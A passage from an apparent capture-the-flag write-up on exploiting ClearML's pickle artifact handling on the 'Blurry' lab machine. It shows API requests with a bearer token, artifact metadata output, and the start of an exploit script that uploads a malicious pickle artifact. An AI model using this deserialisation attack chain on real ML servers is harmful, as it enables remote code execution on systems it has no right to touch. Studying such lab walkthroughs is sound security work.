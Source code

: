 The type is `pickle` (which is good), but the preview is still that path. If I change my creation script by removing `extension_name=".pkl"` and adding `auto_pickle=False`, I’ll get something different:

```

oxdf@hacky$ curl -s -H "Authorization: Bearer $token" http://api.blurry.htb/tasks.get_by_id -d "task=8b873a627f144600bfc9652f8f32e539" | jq '.data.task.execution.artifacts'
[
  {
    "key": "sploit",
    "type": "custom",
    "mode": "output",
    "uri": "http://files.blurry.htb/Black%20Swan/0xdfping.8b873a627f144600bfc9652f8f32e539/artifacts/sploit/pickle_artifact.pkl",
    "hash": "9b127487b99ba55ae7223961ea443c2cc592110f5b48e90bec325662ba4298e5",
    "content_size": 58,
    "timestamp": 1718037689,
    "type_data": {
      "preview": "pickle_artifact.pkl - 58 bytes\n"
    },
    "display_data": []
  }
]

```

Now the type is `custom`, but the `preview` looks better. Still, I can get it in Python and it doesn’t generate pings:

```

>>> task.artifacts['sploit']
{'name': 'sploit', 'size': 58, 'type': 'custom', 'mode': <ArtifactModeEnum.output: 'output'>, 'url': 'http://files.blurry.htb/Black%20Swan/0xdfping.e257d1f7088240c4a891bbeef20e38da/artifacts/sploit/pickle_artifact.pkl', 'hash': '9b127487b99ba55ae7223961ea443c2cc592110f5b48e90bec325662ba4298e5', 'timestamp': datetime.datetime(2024, 6, 10, 12, 43, 27), 'metadata': {}, 'preview': 'pickle_artifact.pkl - 58 bytes\n'}
>>> task.artifacts['sploit'].get()
PosixPath('/home/oxdf/.clearml/cache/storage_manager/global/6571ba624a21a379b66fefdb03f5e7c8.pickle_artifact.pkl')

```

I need to get the type to `pickle` to that it will deserialized on the download. I’ll do that with the `/tasks.add_or_update_artifact` endpoint. It requires a more complicated JSON body. After some trial and error, I’ll end up with this script:

```

#!/usr/bin/env python3

import requests
import time
from clearml import Task

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6eyJjb21wYW55IjoiZDFiZDkyYTNiMDM5NDAwY2JhZmM2MGE3YTViMWU1MmIiLCJ1c2VyX25hbWUiOiIweGRmIiwiY29tcGFueV9uYW1lIjoiY2xlYXJtbCIsInJvbGUiOiJ1c2VyIiwidXNlciI6Ijk3NDg3ZWEzZjI4MzQzN2JhZDYzNGYzOGY0ZmQ0ZTE1In0sImVudiI6Ijx1bmtub3duPiIsImF1dGhfdHlwZSI6IkJlYXJlciIsImV4cCI6MTcyMDYyMzg2NywiaWF0IjoxNzE4MDMxODY3LCJhcGlfdmVyc2lvbiI6IjIuMjciLCJzZXJ2ZXJfdmVyc2lvbiI6IjEuMTMuMSIsInNlcnZlcl9idWlsZCI6IjQyNiIsImZlYXR1cmVfc2V0IjoiYmFzaWMifQ.bHNkVxxiZXt4zEDkNqWO0T-_1Ys7AVmz4D3nABFZ7O8"

# upload task
print("[*] Creating Task")
task = Task.init(project_name="Black Swan", task_name="0xdfping")
task.add_tags("review")
```